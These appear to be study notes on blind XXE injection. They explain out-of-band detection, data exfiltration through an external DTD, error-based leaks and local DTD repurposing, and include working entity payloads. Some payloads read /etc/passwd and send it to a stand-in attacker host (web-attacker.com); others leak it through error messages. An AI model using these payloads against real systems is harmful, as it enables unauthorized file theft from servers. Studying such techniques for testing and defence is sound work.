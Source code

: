 ## Blind XXE
* No returning of values in responses
* Could use out-of-band techniques
* Trigger XML parsing errors

OAST
* <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
* You can use Burp Collaborater to come up with your custom domain then poll the collaborater interactions to see what is being sent to the domain.
* If blocked => can user parameter entities instead
   	* Parameters can only be accessed elsewhere within the DTD
   	* <!ENTITY % myparameterentity "my parameter entity value" >
   	* <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>

Exfiltrating Data Out of Band
* To actually get information, attacker needs to host malicious DTD on system they control and invoke in an in-band payload
* Create an external DTD that can be referenced in an in-band payload
			<!ENTITY % filePlease SYSTEM "file:///etc/passwd">
            <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%filePlease;'>">
            %eval;
            %exfiltrate;
* Also try etc/hostname?
* Then reference the page that contains that XML in the payload

Retrieving Data through error messages
* Trigger a parsing error with an error message containing sensitive info
			<!ENTITY % file SYSTEM "file:///etc/passwd">
            <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
            %eval;
            %error;
            
Repurposing local DTD
* Nested parameter entities are permitted in external DTD's but not internal.
* Loophole in language specs: if DTD hybrid of internal and external declarations, the internal redefines entities in the externa
   	* This relaxes the no-nesting rule
   	* Means you can employ error based XXE attack
* If out-of-band blocked -> external cannot be loaded from remote, needs to be local to application server
* File than happens to exist on local file system
* Look for DTD files and custom entity names to overwrite.
			<!DOCTYPE foo [
                <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
                <!ENTITY % custom_entity '
                    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
                    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
                    &#x25;eval;
                    &#x25;error;
                '>
                %local_dtd;
            ]>       
            
Locating existing DTD to repurpose
* Use payloads of common file structures.
* Once you find some dtd's, look at the entities you could repurpose
			<!DOCTYPE foo [
                <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
                %local_dtd;
            ]>        

